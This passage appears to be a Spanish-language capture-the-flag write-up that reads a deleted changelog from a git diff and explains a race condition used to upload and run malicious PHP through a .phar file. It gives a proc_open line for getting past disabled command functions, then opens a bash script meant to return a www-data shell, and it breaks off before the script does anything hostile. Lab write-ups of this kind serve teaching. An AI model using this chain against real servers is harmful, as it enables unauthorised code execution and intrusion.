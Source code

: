 ```console
❯ git diff
...
diff --git a/changelog.txt b/changelog.txt
deleted file mode 100644
index 09e4ccd..0000000
--- a/changelog.txt
+++ /dev/null
@@ -1,9 +0,0 @@
-Beta version
-
-1- Check a bunch of websites.
-
--- ToDo:
-
-1- Multithreading for a faster version :D.
-2- Remove the upload option.
-3- New admin panel.
...
```

El punto número uno menciona que en la aplicación hay que implementar **Multithreading**, que como menciona sirve para ejecutar tareas en paralelo y aumentar la velocidad

Teniendo en cuenta esto, lo que hacemos es enviar nuestro **código malicioso php** seguido de varias **URLs** y como no se aplican hilos ejecutará el curl línea por linea y en ese proceso tendremos tiempo para llamar a nuestro archivo `.phar` y ejecutar nuestro código

El último problema era que al intentar usar funciones como `system() - exec() - shell_exec()` no obteniamos resultado, entonces al visualizar el archivo de configuración **phpinfo** notamos que estaban bloqueadas. Por ello, encontramos en la biblia de los Hackers otras manera de executar comandos:

> proc\_close(proc\_open("command",array(),$something));

> Puedes encontrar mas información en [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass)
{: .prompt-info}

Para aplica todo este proceso hice un script en `bash` que creará el archivo malicioso que luego de ponernos en escucha nos devolverá una shell como el usuario `www-data`:

```bash
#!/bin/bash

# colors
export red="\033[1;31m"
export green="\033[1;32m"
export yellow="\033[1;33m"
export blue="\033[1;34m"
export purple="\033[1;35m"
export cyan="\033[1;36m"
export grey="\033[0;37m"
export reset="\033[m"

# ctrl + c (function)
function signal_handler(){
  echo -e "${red}\n[!] User terminated.${reset}"
  rm -f $file_name
  tput cnorm; exit 1 # return cursor and exit
}

# ctrl + c (signal)
trap signal_handler SIGINT

# hide cursor
tput civis

```